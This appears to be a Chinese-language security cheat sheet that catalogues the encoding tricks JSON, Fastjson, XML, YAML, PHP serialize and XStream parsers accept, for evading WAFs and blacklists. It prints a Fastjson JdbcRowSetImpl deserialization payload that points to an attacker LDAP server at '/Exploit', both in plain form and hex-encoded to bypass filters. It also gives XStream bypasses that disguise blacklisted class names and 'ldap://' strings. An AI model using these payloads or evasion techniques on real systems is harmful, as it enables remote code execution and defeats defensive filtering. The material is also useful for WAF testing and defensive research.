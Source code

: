 # 来自p师傅的知识星球
>抽空整理了一下各种序列化方式中支持的一些编码方式，我们可以在遇到一些限制、WAF的时候使用这些编码进行绕过。

### JSON：
json是最常用到的序列化方法，json中支持使用unicode编码，目标解析的时候会自动解码，
比如：`{"name": "\u0023vulhub\u0023", "age": 12}`

### Fastjson：
把Fastjson单独拎出来，因为这货除了漏洞多，即使没漏洞的最新版本，他内部存在很多奇葩的非标准操作。
比如，fastjson支持16进制编码：`{"name": "\x23vulhub\x23", "age": 12}`，这在标准的json中是不会被解析的；他还支持在json中插入注释，
比如`{"name": /*evil*/"vulhub", "age": 12}`，标准中也不支持，Jackson中可以通过开启一个选项支持这个语法；他还支持使用单引号替代双引号，
比如`{"name": 'vulhub', "age": 12}`；另外fastjson支持的各种非标准feature太多，不一一写出来了。利用这些非标准的特性，可以用来绕过很多语义化的WAF。

### XML：
xml默认支持16进制和10进制的HTML实体编码，
如`<root><name>&井35;vulhub&井x23;</name></root>`，也支持英文单词形式的实体，如`&amp;`。

### YAML：
yaml的双引号中可以使用16进制编码和unicode编码，
如`name: "\x23vulhub\u0023"`，单引号内不支持编码。

### php serialize：php的反序列化中，可以用一种长得像8进制编码，实际上是16进制编码的方式表示字符串，
具体可以参考我在星球分享过的帖子：https://t.zsxq.com/3faIYzN

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}

{"name":{"\x40\x74\x79\x70\x65":"java.lang.Class","val":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c"},"x":{"\x40\x74\x79\x70\x65":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","dataSourceName":"ldap://xxx.xxx.xxx.xxxs:1389/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}}

```
2021/10/7更新
### XStream
```xml
1. 16进制绕过

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
当前黑名单为org[.]springframework，此时的绕过方法可以为
<org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>

2. 针对标签属性内容的绕过

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="custom">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
此时的黑名单为custom，那么绕过方法可以为

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="cust&#111;m">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
原理为读取属性内容时，会做符合要求的转化

3. 针对标签内容的绕过
<test>
ldap://xxxxx
</test>
此时的黑名单为ldap://，可以用如下的几种方法绕过

html编码:
这部分在提取数据时，同样对html编码的内容做了转化
<test>
&#108;dap://xxxxx
</test>

注释的方法:
在处理实际的标签内容时，遇到注视内容将被忽略掉
<test>
ld<!-- test -->ap://xxxxx
</test>


```

